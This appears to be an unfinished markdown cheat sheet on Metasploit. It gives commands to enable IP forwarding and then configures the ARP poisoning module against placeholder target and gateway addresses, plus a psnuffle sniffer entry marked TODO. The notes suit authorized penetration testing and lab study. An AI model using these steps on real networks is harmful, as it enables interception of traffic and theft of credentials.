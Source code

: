 # Metasploit

## 01 - Enable IP Forwarding

### 1.1 - Linux

The universal command to enable it.

```
$ sudo sysctl -w net.ipv4.ip_forward=1

# echo 1 > /proc/sys/net/ipv4/ip_forward
```

### 1.2 - FreeBSD

The universal command to enable it.

```
$ sudo sysctl -w net.inet.ip.forwarding=1
```

### 1.3 - Mac OSX

The universal command to enable it.

```
$ sudo sysctl net.inet.ip.forwarding=1
```

## 02 - ARP Poisoning and PSnuffle

Auxiliary module for ARP poisoning

```
msf > use auxiliary/spoof/arp/arp_poisoning

msf auxiliary(spoof/arp/arp_poisoning) > options

Module options (auxiliary/spoof/arp/arp_poisoning):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   AUTO_ADD       false            yes       Auto add new host when discovered by the listener
   BIDIRECTIONAL  false            yes       Spoof also the source with the dest
   DHOSTS                          yes       Target ip addresses
   INTERFACE                       no        The name of the interface
   LISTENER       true             yes       Use an additional thread that will listen for arp requests to reply as fast as possible
   SHOSTS                          yes       Spoofed ip addresses
   SMAC                            no        The spoofed mac


View the full module info with the info, or info -d command.

msf auxiliary(spoof/arp/arp_poisoning) > set auto_add <true | false>

msf auxiliary(spoof/arp/arp_poisoning) > set bidirectional <true | false>

msf auxiliary(spoof/arp/arp_poisoning) > set listener <true | false>

msf auxiliary(spoof/arp/arp_poisoning) > set dhosts <target_IP>

msf auxiliary(spoof/arp/arp_poisoning) > set interface <interface>

msf auxiliary(spoof/arp/arp_poisoning) > set shosts <gateway_IP>

msf auxiliary(spoof/arp/arp_poisoning) > set smac <spoofed_MAC_Address>
```

- Auxiliary module for sniffing network protocols

TODO: Fill this info

```
msf > use auxiliary/sniffer/psnuffle

msf auxiliary(sniffer/psnuffle) > options
```